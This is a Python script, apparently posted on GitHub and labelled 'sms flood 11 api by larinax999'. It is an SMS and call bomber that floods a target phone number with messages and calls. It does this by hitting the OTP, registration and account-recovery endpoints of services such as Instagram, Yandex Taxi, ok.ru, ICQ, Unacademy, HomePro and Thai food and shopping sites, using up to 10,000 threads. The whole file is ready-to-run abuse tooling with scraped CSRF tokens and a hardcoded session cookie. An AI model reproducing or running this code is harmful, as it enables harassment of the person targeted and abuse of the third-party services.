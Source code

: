 from requests import Session,post,get
from re import search
from concurrent.futures import ThreadPoolExecutor 
from time import sleep

headers = {"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"}

"""api sms shopat24"""
def shopat(phone):
    s=Session()
    s.headers.update(headers)
    token=search('<meta name="_csrf" content="(.*)" />',s.get("https://www.shopat24.com/register/").text).group(1)
    d=s.post("https://www.shopat24.com/register/ajax/requestotp/",data=f"phoneNumber={phone}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","x-csrf-token": token}).status_code
    if d == 200:
        print("[*] ShopAt24 | sent")
    else : 
        print("[*] ShopAt24 | sent")

"""api sms pizza1112"""
def p1112(phone):
    d=post('https://api2.1112.com/api/v1/otp/create',json={"phonenumber":phone,"language":"th"},headers=headers).status_code
    if d == 200:
        print("[*] 1112 | sent")
    else : 
        print("[*] 1112 | sent")

"""api sms pizza1112 v2"""
def p1112v2(phone):
    d=post('https://api.1112delivery.com/api/v1/otp/create',json={"phonenumber":phone,"language":"th"},headers=headers).status_code
    if d == 200:
        print("[*] 1112 | sent")
    else : 
        print("[*] 1112 | sent")

"""api call okru"""
def okru(phone):
    s=Session()
    s.headers.update({"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38","Content-Type" : "application/x-www-form-urlencoded","Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"})
    s.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",data=f"st.r.phone=+66{phone[1:]}")
    s.post("https://ok.ru/dk?cmd=AnonymRegistrationAcceptCallUI&st.cmd=anonymRegistrationAcceptCallUI",data="st.r.fieldAcceptCallUIButton=Call")
    print("[*] okru | sent")

"""api call findclone"""
def findclone(phone):
    d=get(f"https://findclone.ru/register?phone=+66{phone[1:]}",headers={"X-Requested-With" : "XMLHttpRequest","User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"}).json()
    if d.get("Error",False) == "Wait for timeout":
        print("[*] findclone | fail")
    else :
        print("[*] findclone | sent")

"""api sms unacademy"""
def unacademy(phone):
    d=post("https://unacademy.com/api/v3/user/user_check/",json={"phone":phone,"country_code":"TH"},headers=headers).json()
    if d.get("error_code",False):
        print("[*] unacademy | fail")
    else :
        print("[*] unacademy | sent")

"""api sms icq"""
def icq(phone):
   post(f"https://u.icq.net/api/v4/rapi",json={"method":"auth/sendCode","reqId":"24973-1587490090","params":{"phone": f"66{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}},headers=headers)
   print("[*] icq | sent")

""" get instagram token"""
def ig_token():
    d=get("https://www.instagram.com/",headers=headers).headers['set-cookie']
    d=search("csrftoken=(.*);",d).group(1).split(";")
    return d[0],d[10].replace(" Secure, ig_did=","")

"""api sms instagram"""
def instagram(phone):
    token,_=ig_token()
    d=post("https://www.instagram.com/accounts/account_recovery_send_ajax/",data=f"email_or_username=66{phone}&recaptcha_challenge_field=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","X-CSRFToken":token}).json()
    if d["status"] == "ok":
        print("[*] instagram | sent")
    else:
        print("[*] instagram | fail")

"""api sms instagram v2"""
def instagramv2(phone):
    token,cid=ig_token()
    d=post("https://www.instagram.com/accounts/send_signup_sms_code_ajax/",data=f"client_id={cid}&phone_number=66{phone}&phone_id=&big_blue_token=",headers={"Content-Type":"application/x-www-form-urlencoded","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36","X-CSRFToken":token}).json()
    if d["status"] == "ok":
        print("[*] instagram v2 | sent")
    else:
        print("[*] instagram v2 | fail")

"""api sms yandex"""
def yandex(phone):
    d=post("https://taxi.yandex.kz/3.0/launch/",json={},headers=headers).json()
    d=post("https://taxi.yandex.kz/3.0/auth/",json={"id": d["id"], "phone": f"+66{phone[1:]}"},headers=headers).text
    if d == "{}":
        print("[*] yandex | sent")
    else:
        print("[*] yandex | fail")

"""api sms homepro"""
def homepro(phone):
    d=post("https://www.homepro.co.th/service/user/profile/otp.jsp",data=f"action=otp&user_mobile_number={phone}",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36","x-csrf-token": "AaqCrWeoDAPdJqmFtCnSCJN8a1mECsPB","content-type": "application/x-www-form-urlencoded; charset=UTF-8","cookie": "h11e_uuid=5da6d569-5a72-4014-afef-40990862f26e; ltcid=4ac7dc78-ae73-4617-ba28-75b31ed3bc9f; ltsid=9b139725-fc38fbcc; _gid=GA1.3.1373861600.1635677257; _fbp=fb.2.1635677258036.1072722582; h11e_data1=ZTE1MWFkY2ZjMDk3ODk1MzhiMzk1MzM0OTc5NDMzMmIzOWEyOGVhNWU3NWU1NzQzODJhODMyM2U1MWI3MGQ0Yzg1MWM4MGEzYjJmMjUwYTUxMThjZGU2YTQ3NzVkNDMy; h11e_lang=th; _dc_gtm_UA-112826849-3=1; h11e_user=N2NlM2E4ODNkYjQxNjcwNTg3YzgxN2UwZWJiMDFkNmU0ZWUzM2M0M2U2YTJmNTkxMzA2NjYxYzU2MTFiNjFjNw==; h11e_csrf=AaqCrWeoDAPdJqmFtCnSCJN8a1mECsPB; JSESSIONID=06E6906132FE92B731D49BFD2F00877D; _ga=GA1.3.106485705.1635677257; _ga_RMXSTMQMK7=GS1.1.1635677253.1.1.1635677348.0"}).json()
    if d["msgtype"] == "success":
        print("[*] homepro | sent")
    else:
        print("[*] homepro | fail")

"""loop func """
def loop(pho):
    for _ in range(2):
        exec.submit(okru,pho) # call
        exec.submit(findclone,pho) # call
        exec.submit(unacademy,pho) # sms
        exec.submit(icq,pho) # sms
        exec.submit(instagram,pho) # sms
        exec.submit(instagramv2,pho) # sms
        exec.submit(yandex,pho) # sms
        sleep(10)

if __name__ == "__main__":
    exec=ThreadPoolExecutor(max_workers=10000)
    print("[*] sms flood 11 api by larinax999")
    pho = input("[!] เบอร์ครับ >> ")
    i = int(input("[!] เลือกจำนวน (ตัน. 10k) >> "))
    exec.submit(loop,pho)
    for _ in range(i):
        exec.submit(shopat,pho) # sms
        exec.submit(p1112,pho) # sms
        exec.submit(p1112v2,pho) # sms
        exec.submit(homepro,pho) # sms
